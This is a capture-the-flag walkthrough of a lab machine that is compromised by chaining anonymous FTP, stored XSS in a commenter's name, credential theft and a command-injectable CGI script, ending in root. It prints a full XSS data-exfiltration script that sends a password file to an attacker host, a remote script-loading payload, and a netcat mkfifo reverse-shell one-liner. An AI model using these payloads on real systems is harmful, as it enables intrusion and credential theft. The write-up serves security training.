## Port Scanning
```bash
rustscan -a 10.48.182.187 -- -A

Open 10.48.182.187:21
Open 10.48.182.187:22
Open 10.48.182.187:80

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             318 Mar 14  2023 update.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.168.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 47:71:2b:90:7d:89:b8:e9:b4:6a:76:c1:50:49:43:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDVPKwhXf+lo95g0TZQuu+g53eAlA0tuGcD2eIcVNBuxuq46t6mjnkJsCgUX80RB2wWF92OOuHjETDTduiL9QaD2E/hPyQ6SwGsL/p+JQtAXGAHIN+pea9LmT3DO+/L3RTqB1VxHP/opKn4ZsS1SfAHMjfmNdNYALnhx2rgFOGlTwgZHvgtUbSUFnUObYzUgSOIOPICnLoQ9MRcjoJEXa+4Fm7HDjo083hzw5gI+VwJK/P25zNvD1udtx3YII+cnOoYH+lT2h/gPcJKarMxDCEtV+3ObVmE+6oaCPx+eosZ+45YuUoAjNjE/U/KAWIE+Y0Xav87hQ/3ln4bzB8N5WV41/WC5zqIfFzuY+ewx6Q6u6t7ijxZ+AE2sayFIqIgmXKWKq3NM9fgLgUooRpBRANDmlb9xI1hzKobeMPOtDkaZ+rIUxOLtUMIkzmdRAIElz3zlxBD+HAqseFrmXKKvLtL6JllEqtEZShSENNZ5Rbh3nBY4gdiPliolwJkrOVNdhE=
|   256 cb:29:97:dc:fd:85:d9:ea:f8:84:98:0b:66:10:5e:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFynIMOUWPOdqgGO/AVP9xcS/88z57e0DzGjPCTc6OReLmXrB/egND7VnoNYnNlLYtGUILQ1qoTrL7hC+g38pxc=
|   256 12:3f:38:92:a7:ba:7f:da:a7:18:4f:0d:ff:56:c1:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKTv0OsWH1pAq3F/Gpj1LZuPXHZZevzt2sgeMLwWUCRt
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome!!
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|storage-misc|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), HP embedded (93%), Google Android 10.X|11.X|12.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/h:hp:p2000_g3 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (94%), Linux 5.4 - 5.15 (94%), HP P2000 G3 NAS device (93%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 2.6.32 - 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
```
On ftp anonymous log in allowed. So logged in and retrieved some information.<br/>
<br/>
<br/>
Visiting the web page I found.<br/>
<br/>
Performed dirseach<br/>
<br/>
Then registered a account and logged in. And found a section for commenting.<br/>
<br/>
So I tried XSS.<br/>
<br/>
But it blocks the special characters through encoding.<br/>
<br/>
But there is an interesting thing. The commentator's name also shows there. So I create a name with XSS payload a comment there.
`<script>alert("XSS");</script>`. And it popped up xss.<br/>

So to steal the data I followed this [blog](https://trustedsec.com/blog/simple-data-exfiltration-through-xss). And used this script from the provided [github](https://github.com/hoodoer/XSS-Data-Exfil.git).
```javascript
// TrustedSec Proof-of-Concept to steal 
// sensitive data through XSS payload


function read_body(xhr) 
{ 
	var data;

	if (!xhr.responseType || xhr.responseType === "text") 
	{
		data = xhr.responseText;
	} 
	else if (xhr.responseType === "document") 
	{
		data = xhr.responseXML;
	} 
	else if (xhr.responseType === "json") 
	{
		data = xhr.responseJSON;
	} 
	else 
	{
		data = xhr.response;
	}
	return data; 
}


function stealData()
{
	var uri = "/dir/pass.txt";

	xhr = new XMLHttpRequest();
	xhr.open("GET", uri, true);
	xhr.send(null);

	xhr.onreadystatechange = function()
	{
		if (xhr.readyState == XMLHttpRequest.DONE)
		{
			// We have the response back with the data
			var dataResponse = read_body(xhr);


			// Time to exfiltrate the HTML response with the data
			var exfilChunkSize = 2000;
			var exfilData      = btoa(dataResponse);
			var numFullChunks  = ((exfilData.length / exfilChunkSize) | 0);
			var remainderBits  = exfilData.length % exfilChunkSize;

			// Exfil the yummies
			for (i = 0; i < numFullChunks; i++)
			{
				console.log("Loop is: " + i);

				var exfilChunk = exfilData.slice(exfilChunkSize *i, exfilChunkSize * (i+1));

				// Let's use an external image load to get our data out
				// The file name we request will be the data we're exfiltrating
				var downloadImage = new Image();
				downloadImage.onload = function()
				{
					image.src = this.src;
				};

				// Try to async load the image, whose name is the string of data
				downloadImage.src = "http://<attacker_ip>/exfil/" + i + "/" + exfilChunk + ".jpg";
			}

			// Now grab that last bit
			var exfilChunk = exfilData.slice(exfilChunkSize * numFullChunks, (exfilChunkSize * numFullChunks) + remainderBits);
			var downloadImage = new Image();
			downloadImage.onload = function()
			{
    			image.src = this.src;   
			};

			downloadImage.src = "http://<attacker_ip>/exfil/" + "LAST" + "/" + exfilChunk + ".jpg";
			console.log("Done exfiling chunks..");
		}
	}
}


stealData();

```
I edited the above script with my vpn IP. Then started a python http server and create a username with the following payload and made a comment.
`<script src="http://192.168.168.41:4545/exfilPayload.js"></script>`  <br/>
<br/>
Decrypting the encoded string.<br/>
```bash
echo 'amFjazpXaHlJc015UGFzc3dvcmRTb1N0cm9uZ0lESwo=' | base64 -d                               
jack:WhyIsMyPasswordSoStrongIDK
```
Using this credentials I logged in as jack via ssh.<br/>
<br/>
The user flag and result of `sudo -l`   <br/>
<br/>
Running the command.<br/>
<br/>
There is something on port 41312. Run the following command to ACCEPT on that port.<br/>
```bash
sudo iptables -I INPUT -p tcp --dport 41312 -j ACCEPT
```
I performed a port scan on that port and found the following.<br/>
<br/>
After enumerating more I found <br/> 
<br/>
So I downloaded the pcap file and open it on wireshark.  <br/>
<br/>
So from the machine I downloaded the `apache.key` file. <br/>
<br/> 
And set it to the wireshark to decrypt the pcap. <br/>
*Edit -> Preferences select TLS from protocol and add machine ip, port and the key file* 
<br/>
Now the file is decrypted. <br/>
 <br/>
There I found an interesting uri to that port. So the requested url is: `https://10.48.182.187:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id`  <br/>
<br/>
I replaced the `cmd` value with the following payload <br/>
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.168.41 5599 >/tmp/f`  <br/>
Then again send it. and got the reverse shell.<br/>
<br/>
Running `sudo -l` I found the root privilege and obtained the flag.<br/>
